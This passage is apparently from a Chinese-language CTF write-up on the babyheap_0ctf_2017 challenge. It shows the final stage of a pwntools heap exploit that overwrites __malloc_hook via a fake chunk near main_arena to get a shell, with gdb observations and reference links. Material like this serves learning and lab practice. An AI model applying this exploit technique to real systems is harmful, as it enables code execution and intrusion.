（这个fakechunk中的数据是main_arena中的重要数据，修改可以劫持，也可能导致崩溃）

```python
alloc(0x60) # Chunk5
alloc(0x60) # Chunk7, fakeChunk
fill(7, 0x1b, b'z'*0x13 + p64(system))
dbg=1

# target.interactive() 
# # interactive后手动输入 1 回车 1 回车，或者alloc代为输入
alloc(0x10) # pwn!

dbg=1
target.interactive()
```

对fake chunk填入数据，目标是覆盖 `__malloc_hook` ，先填入0x13个z，然后0x14开始到0x1b的8个字节就是 `__malloc_hook` 的内容，使用`p64(system)`填充覆盖。

在fill之后，gdb跟进，可以观察到chunk7（fake chunk）的内容，从第二行开始填充了0x10个'z'(0x7a)

然后第三行填充了三个'z'(0x7a)，然后选中部分包含了覆盖的 `__malloc_hook`



更直观地，直接对 `__malloc_hook` 位置进行观察，可以看到此处地址已经被覆盖为了之前输出的名为system的getshell的地址  
`[*] System is:      0x7fbc4a18a26a`



此时 `__malloc_hook` 已经被劫持，现在再申请一个内存就会调用 `__malloc_hook` ，而调用getshell代码。

但是由于libc库等原因，非ubuntu16的系统多少会出现一些问题，所以最后的实际运行转移到ubuntu16机器上进行。

（远程靶机则使用pwntools的 `p=remote("<doamin>",<port>)` 连接即可）

## 实际运行

在ubuntu 16.04上可以运行，主要是最后的libc的getshell的代码是需要系统工具的（修正：需要与程序匹配的），不匹配就运行不了（猜测）。

所以在ubuntu16上搭建pwn环境，运行后可以获得shell。(/flag是提前写好的，内容为`flag{success}`)



## 参考资料

### 题解和分析

[【学习分享】babyheap_0ctf_2017，一道入门堆的题](https://www.bilibili.com/video/BV1x64y1r728/)

[XMCVE 2020 CTF Pwn入门课程(p10)](https://www.bilibili.com/video/BV1854y1y7Ro/?p=10)

[[BUUCTF]PWN——babyheap_0ctf_2017](https://blog.csdn.net/mcmuyanga/article/details/108360375)

[[分享]0ctf2017 - babyheap ——Pwn-看雪](https://bbs.kanxue.com/thread-223461.htm)

[0ctf Quals 2017 - BabyHeap2017](https://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html)

### 相关工具

[pwndbg的安装和gdb使用](https://blog.csdn.net/zino00/article/details/122716412)

[[pwn]调试：gdb+pwndbg食用指南](https://blog.csdn.net/Breeze_CAT/article/details/103789233)

[glibc-all-in-one ——Github](https://github.com/matrix1001/glibc-all-in-one)

### 实用知识

[PWN 更换目标程序libc](https://blog.csdn.net/yongbaoii/article/details/111938821)

[ctf-pwn-patchelf-用题目给的libc运行二进制文件](https://blog.csdn.net/huzai9527/article/details/118558784)

[Linux 环境变量之 LD_PRELOAD & LD_LIBRARY_PATH & LD_DEBUG](https://blog.csdn.net/llm_hao/article/details/115493516)

[Pwn出题指南](https://www.cnblogs.com/tolele/p/16684567.html)

[搭建Ubuntu16.04系统下Pwn环境的几个疑难问题](https://blog.csdn.net/sorryagain/article/details/124078132)
